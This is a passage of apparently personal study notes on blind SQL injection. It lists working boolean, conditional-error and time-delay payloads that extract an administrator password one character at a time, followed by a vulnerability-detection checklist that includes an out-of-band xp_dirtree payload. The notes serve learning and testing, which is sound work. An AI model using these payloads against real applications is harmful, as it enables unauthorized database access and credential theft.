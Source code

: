      ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), 1, 1) > 'm -->returns true if first character of password is > m, else false
     ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), 2, 1) = 's --> do the same for the second character and so on
     ```

  2. Conditional Error based injection --> whenever the application doesn't behave differently if there are results returned from SQL query or not --> we need to induce the query so that it will cause a database error if the condition is TRUE, but NOT if the condition is false

     ```sql
     -- Exploiting blind SQLi by triggering conditional errors
     -- often possible to induce application to return conditional responses by triggering SQL errors conditionally
     -- induced query will cause DB error if condition is true but not if false
     -- Payloads: Example: Table USERS with columns USERNAME and PASSWORD and we know one user 'administrator'
     -- First step: check do we have conditional error based blind injection?
     ...' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a-- --> always false so a returned = no error
     ...' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a-- --> always true so 1/0 is executed which provokes an error
     -- ...yes we have SQLi
     -- next Step: get length of password:
     ...' AND (select case when length(PASSWORD)>1 then to_char(1/0) else 'a' end from USERS where USERNAME = 'administrator')='a --> if true --> ERROR
     -- now you can get Password length by using BurpIntruder or ZAP Fuzzer and incrementing number
     -- next Step: test one character at a time (see also blind SQLi in 1.) to get final password
     -- here we again can use Burp or ZAP to fuzz substring character position and letter in the same step
     ...' AND (select case when substr(PASSWORD,1,1) = 'a' then to_char(1/0) else 'a' end from USERS where USERNAME = 'administrator')='a --> if true --> ERROR
     ```

  3. Conditional Time delay SQLi --> whenever application catches error and handles the gracefully and we have nothing else: trigger time delay conditionally depending on injected condition --> allows us to infer the thruth of injected condition based on time taken before HTTP response is received

  ```sql
  -- Payload --> as almost always: test one character at a time
  '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
  ```

## Detect SQLi vulnerabilites

- Submit the single quote character `'` and look for errors or other anomalies
- Submit some SQL-specific syntax that evaluates to the base (original) value of the entry point (`ASCII(97)`), and to a different value, and look for systematic differences in the resulting application responses.
- Submit Boolean conditions such as `' OR 1=1` and `' OR 1=2` and look for differences in the application's responses
- Submit payloads designed to trigger time delays when executed within a SQL query and look for differences in the time taken to respond: `'; waitfor delay ('0:0:20')--`
- Submit OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query and monitor for any resulting interactions: `'; exec mast..xp_dirtree '//....../..'`
- SQLi happens when user-provided data (for example in Browser input fields) gets included in the SQL query
- attacker can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application
- Example: some websites take input in JSON or XML format and use this to query the database
- Most SQL injection vulnerabilities arise within the `WHERE` clause of a `SELECT` query but can in principle occur at any location within the query, and within different query types
- most common other locations where SQL injection arises are:
  - In `UPDATE` statements, within the updated values or the `WHERE` clause
  - In `INSERT` statements, within the inserted values